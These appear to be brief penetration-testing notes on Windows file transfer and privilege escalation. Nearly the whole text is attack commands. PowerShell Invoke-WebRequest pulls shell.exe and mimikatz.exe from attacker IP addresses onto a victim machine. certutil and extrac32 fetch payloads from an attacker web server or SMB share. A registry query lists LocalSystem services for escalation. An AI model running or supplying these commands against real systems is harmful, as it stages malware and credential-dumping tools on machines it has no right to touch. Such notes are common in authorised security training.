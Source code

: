 Grabbing file from http server:

```
powershell -c "Invoke-WebRequest" -Uri 'http://10.10.10.10:80/shell.exe' -OutFile 'c:\windows\temp\shell.exe'
```

powershell -c "Invoke-WebRequest" -Uri 'http://10.13.22.125:80/mimikatz.exe' -OutFile 'mimikatz.exe'

---

The command `certutil.exe` can also be used
```
certutil.exe -urlcache -split -f http://web.server/stuff.exe output.exe
```

---

`extrac32.exe` can also be used, but you must stand up an SMB share

```
extrac32 /Y /C \\attack_server\share\test.txt C:\victim\test.txt
```

---


```
$service_names = Get-ItemProperty HKLM:\System\CurrentControlSet\services\* | Where-Object {($_.ObjectName -eq "LocalSystem") -and ($_.Start -eq 3)} | Select PsChildName
```
